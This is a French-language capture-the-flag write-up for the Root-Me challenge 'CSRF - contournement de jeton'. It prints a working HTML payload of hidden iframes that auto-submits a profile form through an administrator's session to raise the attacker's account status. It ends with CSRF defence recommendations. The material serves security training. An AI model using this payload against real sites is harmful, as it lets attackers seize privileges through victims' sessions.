


# Challenge 1: CSRF - contournement de jeton

## Nom / URL

**Nom du challenge :** CSRF - contournement de jeton
**URL :** https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton?action_solution=voir#ancre_solution
**Niveau :** MOYEN

## Les étapes de découverte de la vulnérabilité

1. ## Exploration du site web

Création d'un compte, connexion, exploration des diverses pages et requêtes associés. Deux pages en particulier semblent importantes: un formulaire de contact ainsi qu'un formulaire pour modifier notre profil. Ce deuxième formulaire est uniquement valide si envoyé par un administrateur (vérification par token).

2. ## Recherche de solution

Le status ne peut pas être coché en passant sur le front (disabled), mais même en envoyant un POST via burp avec status=true on reçoit un message d'erreur "You're not an admin!". La solution semble donc être d'utiliser le token de l'administrateur via le formulaire de contacte afin de lui faire faire exécuter le formulaire. 

3. ## Découverte de la solution

Après plusieurs formats de mails tester avec des balises script, image et des iframes, un fonctionne finalement et j'obtiens le mot de passe du challenge.

## Le payload utilisé + screenshot

**Payload utilisé :**

<html>
<body>
content de l'email:
<iframe src="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile"
        name="frame1" width="0" height="0"></iframe>

<iframe src="javascript:
    document.write('<form id=f target=frame1 method=POST action=http://challenge01.root-me.org/web-client/ch23/index.php?action=profile>');
    document.write('<input name=username value=test>');
    document.write('<input name=status value=true>');
    document.write('</form>');
    document.forms[0].submit();
"></iframe>

</body>
</html>

**Explication du payload :**

Le premier iframe est là pour charger le site sur la machine de l'administrateur et générer un token. Le second envoie le formulaire pour activer notre compte avec le pseudonyme "user". Le formulaire va utiliser le token de l'administrateur précedement générer et ainsi activer notre compte comme si l'administrateur l'avait fait lui-même. 

**Screenshot :**

## Les recommandations pour sécuriser cette vulnérabilité

## Mesures côté site web

1. ## Utilisesr des nonces

Un nonce est un jeton unique utilisé afin de sécuriser une transaction. Celui-ci est insérer dans chaque formulaire ainsi que dans la session côté serveur. Lors de la soumission du formulaire, le serveur compare le jeton envoyé avec celui stocké en session. Cela empêche un attaquant de générer un formulaire CSRF valide car il ne connaît pas le jeton. 

2. ## CAPTCHAs

L'utilisation de CAPTCHAs est également une bonne protection contre les attaques CSRFs. L'attaquant ne peut pas lire l'image et ne peut donc pas générer un formulaire valide. 

3. ## Confirmation par mot de passe

Pour certaines actions sensibles, une confirmation par mot de passe peut être implémenté. L'attaquant ne connaît pas ce mot de passe (à prioris).

## Mesures côté utilisateur

1. ## Se déconnecter après chaque usage

Les attaques CSRF nécessitent généralement que l'utilisateur soit connecté afin d'utiliser son token.

2. ## Machine virtuelles dédiées

Utiliser un navigateur dans une VM pour visiter des liens suspects limite les dégâts en cas d'attaque.

3. ## Utiliser différents navigateurs

Solution similaire à l'utilisation de différentes VMs, un navigateur pourra contenir les données de sites sensibles tandis que l'autre sera utilisé pour la navigation générale.

4. ## Enforcement via proxy

Configurer des proxies différents pour Internet et Intranet pour limiter l'accès des navigateurs à certaines classes de sites.

**Références complémentaires :**

- **CSRF: Attack and Defense** : [https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20CSRF:%20Attack%20and%20defense.pdf?_gl=1*1gt5vel*_ga*MTQzMTg3MTU0Ny4xNzY0NTk0NTEw*_ga_SRYSKX09J7*czE3NjQ1OTQ1MTAkbzEkZzEkdDE3NjQ1OTQ3NDgkajQyJGwwJGgw]()
